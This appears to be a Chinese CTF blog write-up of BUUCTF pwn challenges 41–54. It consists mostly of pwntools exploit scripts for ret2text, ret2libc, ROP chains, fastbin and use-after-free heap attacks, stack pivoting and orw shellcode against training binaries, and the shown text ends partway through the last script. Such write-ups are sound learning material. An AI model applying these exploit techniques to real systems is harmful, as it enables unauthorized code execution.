buu刷题记录（41-60题）
by Maple
41 picoctf_2018_buffer overflow 1
ret2text
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29931)
def dbg():
gdb.attach(p)
pause()
payload = b'b'*0x28+b'b'*0x4+p32(0x80485CB)
p.sendline(payload)
p.interactive()
42 jarvisoj_test_your_memory
ret2text
别看题上那些有的没的，有个溢出点，有个system,还有cat flag字符串，直接构造rop
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27254)
def dbg():
gdb.attach(p)
pause()
sys = 0x80485C9
flag_addr = 0x80487E0
payload = b'b'*0x13+b'b'*0x4+p32(sys)+p32(flag_addr)
p.sendline(payload)
p.interactive()
43 [ZJCTF 2019]EasyHeap
fastbin
 |
|---|
| 简单的菜单，增、改、删 |
 |
|---|
| 删除函数，这里置零了，没办法uaf |
 |
|---|
| 增，最多10个 |
 |
|---|
| 改，v2不受限，有堆溢出漏洞 |
同时我们看到一个不能实现的后门函数，虽然不能实现，但是为我们提供了system和/bin/sh
那么我们如果覆盖调用函数，将free的got表换为system的plt表，就可以在使用free时，使用的是system
利用过程
creat(0x68,b'a')
creat(0x68,b'b')
creat(0x68,b'c')
 |
|---|
通过查ida我们可以知道heaparry的地址是0x6020e0,那么查一下看看。但是这里不能伪装堆块，因为没有记录大小，所以我们再找找有没有合适的 |
 ](../../images/image-20250701214050927.png) |
| 欸，找到了这个7f，那么我们可以借助这个，伪造出来一个大小为0x7f的堆块 |
delete(2)
#释放到fastbin中，进行fastbin attack，具体方式是修改fd为heap指针附近的地址
payload = b'/bin/sh\x00'+b'\x00'*0x60+p64(0x71)+p64(0x6020ad)
edit(1,payload)
#在heap1中写binsh，0x6020ad是修改fd为刚才定位到的fake heap（0x6020e0-0x33)
 ](../../images/image-20250702183951930.png) |
|---|
| 操作后如下所示，释放的空间有了fd、也有了size |
接下来我们就有了一个可以随意操作的堆了，那么按照先前的思路，修改free罢
creat(0x68,b'a')
creat(0x68,b'b') #创建fake heap，实际上是指针数组前面0x33
payload2 = b'\x00'*0x23+p64(elf.got['free']) #前面已经有0x10用来存堆头了
edit(3,payload2)
 ](../../images/image-20250702190356745.png) |
|---|
| 这里是执行完后的堆，可以发现啊，这里指针变为了0x602018（free的got表地址） |
payload3 = p64(elf.plt['system']) #覆盖free的got为system的plt
edit(0,payload3)
这样的话，在调用free时，是先找free的plt表，然后跳转到fre的got表再执行一次跳转，此时把free的got表改为system的plt，就会凋到system去执行
delete(1)
这里其实是执行system（‘/bin/sh’)
44 hitcontraining_uaf
uaf
uaf（use after free）：free是指函数在堆上动态分配空间后不再使用该数据从而被回收，但是由于一些不当操作，导致攻击者可以操控已经被释放的区域，从而执行一些byte codes
它的使用有以下几个条件;
- 在free函数被调用回收buffer之后，指向该地址的指针是否被重置
- 后续是否存在malloc函数可以将新申请分配的空间分配到之前被free()回收的buffer区域
- 利用没有被重置的指针进行攻击
接下来看一下这道题：

三个功能分别是增、删、输出；同时还有一个后门函数，地址为0x8048945
阅读一下add函数

这里在关键部分写了一些注释，我们可以看到，这一个函数创建了两个堆块，分别是存放函数指针的8字节堆块和存放内容的堆块，做出示意图如下

查看delete函数

查看print函数

执行了前面的一个puts函数，里面是内容
那么很容易想到，我们能不能让这个指向put_note的函数，变为指向后门的函数，这样就可以直接执行后门了
由于fastbin的机制，我们free掉申请的这两个块时，会产生的情况如下;
8字节的chunk1指针 -> chunk0指针 -> tail
n(<40字节) -> chunk1 -> chunk0 -> tail
那么我们malloc的时候，size选择0x8，add函数中先分配指针的堆块，然后分配content的堆块
8字节的chunk0 -> tail
chunk2的指针 == chunk1指针
chunk2_content == chunk0指针
因此打印chunk0的时候，chunk0的函数指针会指向chunk2的content,如果之前传入了后门函数，那就可以顺利执行
详细过程
首先我们写入两个大堆看看
add(16,'aaa')
add(16,'bbb')
 ](../../images/image-20250701200211166.png) |
|---|
| 紫色是第一个put_note； 绿色是第一块堆的内容； 深蓝色是第二个put_note; 黄色是第二块堆的内容 |
delete(0)
delete(1)
 ](../../images/image-20250701200251760.png) |
|---|
| 释放之后堆到了tcache bin中 |
magic = 0x8048945
add(8, p32(magic))
 ](../../images/image-20250701200511537.png) |
|---|
| 清晰的看到深蓝色这里被写入了新的put_node； 这是因为Tache的后进先出原则，蓝色被分配用于存放put_note函数和参数 |
 ](../../images/image-20250701200730288.png) |
| 执行下一步：可以看到，紫色部分也被修改了。因为紫色用于我们申请的内存，并且写入magic地址，并且这里本来应该执行put_note函数的，这里执行了后门函数，因此可以getshell |
from pwn import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 26483
p = process('./pwn')
#p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
def dbg():
gdb.attach(p)
pause()
shell = 0x8048945
def add(size, content):
p.sendlineafter('choice :',b'1')
p.sendlineafter('Note size :',str(size).encode())
p.sendlineafter('Content :',content)
def delete(idx):
p.sendlineafter('choice :',b'2')
p.sendlineafter('Index :',str(idx).encode())
def printf(idx):
p.sendlineafter('choice :',b'3')
p.sendlineafter('Index :',str(idx).encode())
add(16,'aaa')
add(16,'bbb')
#dbg()
delete(0)
delete(1)
#dbg()
add(8,p32(shell))
dbg()
printf(0)
p.interactive()
45 pwnable_orw
sandbox
就是ban了一些危险的函数，但是以获得flag为目的的话也不需要非得getshell
from pwn import *
context(arch='i386',log_level = 'debug')
p = remote('node5.buuoj.cn',26440)
#p = process('./pwn')
bss = 0x804A060
shellcode = shellcraft.open('flag')
shellcode+=shellcraft.read('eax',bss+100,100)
shellcode+=shellcraft.write(1,bss+100,100)
payload = asm(shellcode)
p.recvuntil('shellcode:')
p.sendline(payload)
#log.info(p.recv())
p.interactive()
46 picoctf_2018_buffer overflow 2
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28047)
#gdb.attach(p)
payload = b'b'*0x6c+b'b'*0x4+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
p.sendline(payload)
p.interactive()
47 cmcc_simplerop
rop
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29845)
#gdb.attach(p)
read_addr = elf.sym['read']
pop_edx_ecx_ebx = 0x0806e850
binsh = 0x80EB584
int_addr = 0x80493e1 # int 0x80
pop_eax = 0x80bae06
payload = b'b'*0x20+p32(read_addr)+p32(0xdeadbeef)+p32(0)+p32(binsh)+p32(0x8)
payload+=p32(pop_eax)+p32(0xb)+p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(binsh)+p32(int_addr)
p.sendline(payload)
p.send('/bin/sh')
p.interactive()
分析分析
这种纯手工构造ROP还是可以分析分析的
-
首先是系统调用的知识，可以看这里
-
省流一下：
int 0x80就是系统调用（syscall），然后根据syscall(n)中n的值执行不同函数，其中0xb可以执行execve函数 -
接下来构造ROP
-
先是溢出覆盖，这里ida显示的不对，动态调试可以发现实际的偏移是0x1c
我们输入的相对位置是0x24,ebp的相对位置是0x40，实际偏移
0x40-0x24=0x1c -
因为程序中没有
/bin/sh函数，所以我们需要调用一下read函数，以此输入一个/bin/sh进去（这里binsh的地址是bss段，因为没开PIE，所以地址所见即所得） -
接下来第二行就是进行系统调用了，我们要申请的函数是
int 0x80(0xb,’/bin/sh‘, null, null); //对应寄存器eax, ebx, ecx, edx这四个寄存器地址也确实可以搜到，所以根据寄存器依次输入需要的数就好
48 [Black Watch 入群题]PWN
栈迁移
因为没有RWX段，所以不可以写入shellcode然后栈迁移执行
from pwn import *
#p = process('./pwn')
p = remote("node5.buuoj.cn", 25707)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')
main_addr = 0x8048513
lea_ret_addr = 0x8048511
plt_write = elf.plt['write']
got_write = elf.got['write']
bss_s_addr = 0x804A300
payload1 = b'a' * 4 + p32(plt_write) + p32(main_addr) + p32(1) + p32(got_write) + p32(4)
p.sendafter("name?", payload1)
payload2 = b'a' * 0x18 + p32(bss_s_addr) + p32(lea_ret_addr)
p.sendafter("say?", payload2)
write_addr = u32(p.recv(4))
offset = write_addr - libc.symbols['write']
binsh = offset + libc.search('/bin/sh').__next__()
system = offset + libc.symbols['system']
payload3 = b'aaaa' + p32(system) + b'aaaa' + p32(binsh)
p.sendafter("name?", payload3)
p.sendafter("say?", payload2)
p.interactive()
49 wustctf2020_getshell_2
基础ROP
system(/sh)也可以getshell
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28502)
sh = 0x08048670
call_sys = 0x8048529
payload = b'b'*0x18+b'b'*0x4+p32(call_sys)+p32(sh)
p.recvuntil(b'\n')
p.sendline(payload)
p.interactive()
50 mrctf2020_easyoverflow
栈数据覆盖
发现当check(v5)等于n0t_r3@11y_f1@g时会getshell，然后v4的读入不限制长度，可以覆盖掉v5的值
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29336)
payload = b'b'*0x30+b'n0t_r3@11y_f1@g'
p.sendline(payload)
p.interactive()
51 bbys_tu_2016
ret2text
ida里面的偏移有问题，需要动态调试看看

这里-14，说明偏移为14
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25770)
#gdb.attach(p)
flag_addr = 0x804856D
payload = b'b'*0x18+p32(flag_addr)
p.sendline(payload)
p.interactive()
52 xdctf2015_pwn200
ret2libc
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context(os='linux', arch='amd64', log_level='debug')
e=ELF('./pwn')
p=remote('node5.buuoj.cn',25844)
write_got=e.got["write"]
write_plt=e.plt["write"]
main_add=e.sym["main"]
payload=b"a"*(0x6c+4)+p32(write_plt)+p32(main_add)+p32(1)+p32(write_got)+p32(5)
p.sendline(payload)
p.recvuntil("Welcome to XDCTF2015~!\n")
write=u32(p.recvuntil('\xf7')[-4:])
print("write:",hex(write))
libc_base=write-0xd43c0
system = 0x3a940 + libc_base
bin_sh = 0x15902b + libc_base
p.recvuntil("Welcome to XDCTF2015~!\n")
payload2=b"a"*(0x6c+4)+p32(system)+p32(main_add)+p32(bin_sh)
p.send(payload2)
p.interactive()
53 wustctf2020_closed
重定向
ida看一下
__int64 vulnerable()
{
puts("HaHaHa!\nWhat else can you do???");
close(1);
close(2);
return shell();
}
关闭了标准输出（1）和错误输出（2），就算是getshell了也不会得到回显。所以可以利用exec 1>&0将标准输出重定向到标准输入
标准文件描述符
- 标准输入（stdin）：使用文件描述符0（FD 0）表示，默认情况下终端键盘输入与其关联。
- 标准输出（stdout）：使用文件描述符1（FD 1）表示，默认情况下终端屏幕显示与其关联。
- 标准错误（stderr）：使用文件描述符2（FD 2）表示，默认情况下终端屏幕显示与其关联。
重定向
exec 1>&0是Shell命令行中的重定向语法，用于将标准输出重定向到标准输入，因此后续的输出会被作为输入来处理
所以只需要nc之后输入exec 1>&0就可以了
54 ciscn_2019_s_4
栈迁移
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26010)
#gdb.attach(p)
leave_ret = 0x08048562
sys = elf.sym['system']
payload = b'a'*0x24+b'b'*0x4
p.sendafter('name?\n',payload)
p.recvuntil(b'bbbb')
leak_addr = u32(p.recv(4)) # ebp的地址泄露出来
log.info("leak_addr:"+hex(leak_addr))
buf = leak_addr-0x38 # 回到栈顶
